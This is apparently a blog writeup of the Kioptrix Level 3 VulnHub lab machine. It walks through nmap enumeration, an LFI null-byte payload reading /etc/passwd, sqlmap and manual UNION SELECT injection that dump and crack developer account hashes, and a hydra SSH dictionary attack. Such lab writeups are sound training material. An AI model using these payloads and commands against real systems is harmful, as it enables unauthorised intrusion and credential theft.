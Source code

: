 ```yaml
---
layout: post
title:  "Kioptrix Level 3 Writeup"
date:   2019-04-14 21:28:02 +0530
author: Kyle Simmons
categories: [vulnhub, vulnerable-machine]
---
```

Kioptrix level 3 vulnhub link below: <br>
[Kioptrix Level 3 download page]
<br><br>
<h2>1. Enumeration</h2>
A port scan reveals that only SSH and HTTP is open.
{% highlight shell_session %}
nmap -T4 -sV -A -oA nmapscan 192.168.0.71
Nmap scan report for UNKNOWN (192.168.0.71)
Host is up (0.0051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey:
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
{% endhighlight %}
<br>


<h3>1.1 SSH</h3>
SSH appears to not have any vulnerable versions. However, SSH could possibly have weak credentials.
<br><br>


<h3>1.2.1 HTTP</h3>
Dirb and Nikto is run in the background to check for any interesting pages or vulnerabilities. Dirb reveals
that there is an accessible <font color="red">phpmyadmin</font> page. The page can be logged in
using the username <font color="red">root</font> and the
password can be a random string. However, this did not really reveal anything and the default login has no privileges.
<br><br>
The login page reveals that it is powered by <font color="red">lotus</font>.
<br><br><br>
![Kioptrix level 3 lotus login](/assets/images/Kioptrix/Kioptrix3-lotus-login.png)
<br><br>
Using searchsploit, a vulnerability is found:
<br>
![Kioptrix level 2 lotus vuln](/assets/images/Kioptrix/Kioptrix3-lotus-cms-vuln.png)
<br><br>
This vulnerability is for remote command execution with metasploit. This can be used
to get a meterpreter shell on the target. Finding this exploit was too easy. However there are several
vulnerabilities on this machine.
<br><br>


<h3>1.2.2 HTTP - LFI</h3>
The URL appears to include files, this could possibly be vulnerable to LFI.
<br><br>
`http://192.168.0.71/index.php?system=Blog`
<br><br>
Using the following after system <font color="red">../../../../../etc/passwd</font> reveals nothing. However, with some research.
The OWSAP 'Testing for LFI page' reveals that when using PHP, a null byte terminator at the end of the file will
bypass it. When using the following:
<br><br>
`http://vulnerable_host/preview.php?file=../../../../etc/passwd%00jpg`
<br>
{% highlight shell_session %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
...............
...............
mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash
{% endhighlight %}
This shows the passwd contents which can used for brute forcing SSH. <font color="red">loneferret</font> and <font color="red">dreg</font> can be used to perform a
dictionary attack against them over SSH.
<br><br>
More info from OWASP here: [OWASP LFI testing]
<br><br>


<h3>1.2.3 HTTP - sqlmap (Easy SQL Injection)</h3>
<br>
When browsing the website, the gallery page has a button to filter by an ID. This appears to
be a form of retrieving data from the SQL database. Using the <font color="red">'</font> at the end of the ID, an SQL
error appears which is good news. The website is vulnerable to SQL. SQLmap is then used to check for the
databases:
<br><br>
`sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=">http://192.168.0.71/gallery/gallery.php\?id\= --dbs`
<br><br>
available databases [3]:<br>
<font color="red">gallery</font>---
<font color="red">information_schema</font>---
<font color="red">mysql</font>---
<br>
Three databases were revealed above. The gallery database could be the contents of
the images and users of the gallery. The database <font color="red">gallery</font> can searched next.
<br><br>
<font color="red">sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=">http://192.168.0.71/gallery/gallery.php\?id\= -D gallery --'tables'</font>

{% highlight shell_session %}
Database: gallery
[7 tables]
+----------------------+
| `dev_accounts`       |
| gallarific_comments  |
| gallarific_galleries |
| gallarific_photos    |
| gallarific_settings  |
| gallarific_stats     |
| gallarific_users     |
+----------------------+
{% endhighlight %}
<br>
A table of <font color="red">dev_accounts</font> is worth investigating, this could contain <font color="red">dev</font> accounts.. duh.
<br><br>
<font color="red">sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=http://192.168.0.71/gallery/gallery.php\?id\= -D gallery -T dev_accounts --dump</font>

{% highlight shell_session %}
Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+---------------------------------------------+
| id | username   | password                                    |
+----+------------+---------------------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
+----+------------+---------------------------------------------+
{% endhighlight %}
<br>
The <font color="red">dev_accounts</font> results contain 2 usernames and 2 hashes which were easily
crackable with sqlmap.
<br><br>
<h3>1.2.4 HTTP - SQLI (without sqlmap)</h3>

Checking for the amount of columns by using <font color="red">ORDER BY</font>.<br>
<font color="red">id=2 union select 1,2,3,4,5,6</font>
<br><br>
Finding the database and tables using <font color="red">UNION SELECT</font>. This results in the database <font color="red">gallery</font> being shown. <br>
<font color="red">id=2 UNION SELECT 1, table_schema, table_name,4,5,6 FROM information_schema.tables--</font>
<br><br>
Searching inside the database gallery:<br>
<font color="red">id=1 UNION SELECT 1, table_name,3,4,5,6 FROM information_schema.tables WHERE table_schema = 'gallery'#</font>
<br><br>
The gallery table shows the dev_accouns table. The dev_accounts can then be searched for the columns.<br>
<font color="red">id=1 UNION SELECT 1, column_name,3,4,5,6 FROM information_schema.columns WHERE table_name = 'dev_accounts'#</font>
<br><br>
The columns reveal the 2 user accounts and there corresponding hashes. The hashes can then be cracked with
john the ripper.
<br><br>

<h2>2.1 Exploitation - SSH</h2>

The credentials fetched from the LFI attack can be run against a dictionary.<br>
{% highlight shell_session %}
hydra -t 6 -l loneferret -P 10k-most-common.txt 192.168.0.71 ssh
Hydra v8.9.1 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 10000 login tries (l:1/p:10000), ~2500 tries per task
[DATA] attacking ssh://192.168.0.71:22/
[STATUS] 52.00 tries/min, 52 tries in 00:01h, 9948 to do in 03:12h, 4 active
[22][ssh] host: 192.168.0.71   login: loneferret   password: starwars
1 of 1 target successfully completed, 1 valid password found
{% endhighlight %}
<br>
The dictionary attack with Hydra above was successful and the password was revealed as <font color="red">starwars</font>. When attempting to login
to SSH with this username and password it is successful. When browsing files i found a configuration file in the gallery
directory which contains the mysql login which is <font color="red">root</font> and the password is <font color="red">fuckeyou</font>. This gives us full root access to
the database.
<h3>Pwned!</h3>

[Kioptrix Level 3 download page]: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/
[OWASP LFI testing]: https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion

